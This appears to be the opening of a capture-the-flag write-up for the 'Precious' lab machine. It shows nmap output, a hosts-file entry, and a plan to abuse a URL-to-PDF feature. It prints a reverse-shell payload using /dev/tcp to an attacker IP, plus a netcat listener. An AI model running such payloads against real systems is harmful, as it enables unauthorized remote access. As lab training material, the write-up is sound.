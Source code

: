 # Overview

## Footprinting:
```
 nmap -sV -A -p- 10.10.11.189            
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-11 22:02 EDT
Nmap scan report for 10.10.11.189
Host is up (0.021s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.20 seconds
```

## Initial foothold:
```
curl http://10.10.11.189:80/ -L
curl: (6) Could not resolve host: precious.htb
```

The attacker machine is not able to resolve the local hostname for the redirect. We can add it to the /etc/hosts file:
```
vim /etc/hosts
10.10.11.189    precious.htb
```

The web application will process the passed URL and generate a PDF according to the web page.

It can be possible to weaponize this by hosting a Python local web server and redirect the URL to the attacker's payload.

We can try to generate a reverse shell payload that will be fetched:
```
vim payload.sh

sh -i >& /dev/tcp/10.10.14.39/1234 0>&1
```

If the payload gets executed, we need to setup a listener on the attacker machine:
```
nc -nvlp 1234
```
